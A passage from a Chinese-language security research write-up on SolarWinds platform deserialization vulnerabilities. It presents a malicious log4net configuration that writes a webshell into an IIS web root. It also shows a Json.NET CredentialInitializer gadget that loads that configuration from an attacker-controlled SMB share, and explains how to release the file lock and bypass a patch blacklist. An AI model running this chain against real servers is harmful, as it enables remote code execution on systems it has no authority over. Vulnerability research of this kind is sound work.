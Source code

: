 ```plain
        </layout> 
    </appender> 
    ... 
    <logger name="SolarWinds.IPAM.Storage.Credentials.CredentialInitializer"> [4] 
        <level value="DEBUG"></level> 
    </logger> 
    <root> 
        <level value="INFO" /> 
        <appender-ref ref="RollingLogFileAppender" /> 
        <appender-ref ref="ConsoleAppender" /> 
        <appender-ref ref="OrionImprovementAppender" /> 
    </root> 
    <appender name="OrionImprovementAppender" 
type="SolarWinds.OrionImprovement.Logger.OrionImprovementAppender,  
SolarWinds.OrionImprovement.Logger, Version=1.0.0.0, Culture=neutral,  
PublicKeyToken=aa802ff51e6c3813" /> 
</log4net>
```

代码段 33 代码片段 33 恶意 log4net 配置

在\[1\]，我为`RollingLogFileAppender`定义了一个日志文件路径，设置为`C:\inetpub\wwwroot\poc.aspx`。

在\[2\]，我为日志文件定义了一个标头，其中包含一个 `webshell` 负载。

在\[3\]，我定义了一个空的`conversionPattern`。

在\[4\]，我将日志记录器名称设置为`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`。

当 Log4Net 加载这样的配置文件时：

-   创建`C:\inetpub\wwwroot\poc.aspx`文件。
-   将 `webshell` 负载写入文件。
-   由于`conversionPattern`设置为 null，新的日志消息将不会出现在日志文件中。

最后一步很重要，因为反序列化`CredentialInitializer`的进一步流程将创建新的日志消息。这会破坏我们的 `webshell`。

通过这种方式，我们可以利用 Log4Net 的配置更改机制来上传 `webshell`。然而，需要考虑一件事。使用这种方式上传文件时，文件会被锁定（因为 log4Net 不断尝试写入日志消息，保持文件打开），这导致我们无法使用 `webshell`。然而，我们可以进行两次反序列化，其中第二个小工具包含了配置中不同的文件名。这将释放对第一个文件的锁定，从而使我们能够使用已上传的 `webshell`。

小工具示例：

```plain
{ 
    "$type":"SolarWinds.IPAM.Storage.Credentials.CredentialInitializer,  
SolarWinds.IPAM.Storage, Version=2022.4.0.0, Culture=neutral,  
PublicKeyToken=null", 
    "logConfigFile":"\\\\192.168.1.10\\poc\\malicious.config" 
}
```

代码段 34 CredentialInitializer gadget

#### 1.10 SolarWinds 平台 – 总结

SolarWinds 平台部分的章节中，我展示了在该产品中发现的几种不同的反序列化漏洞。然后，我展示了一个广泛的黑名单，用于修补其中两个漏洞。随后，我描述了绕过此黑名单的创造性方法。这些绕过主要基于 SolarWinds 的内部类，但也使用了一个众所周知的小工具，该小工具未针对 `Json.NET` 序列化器实施。
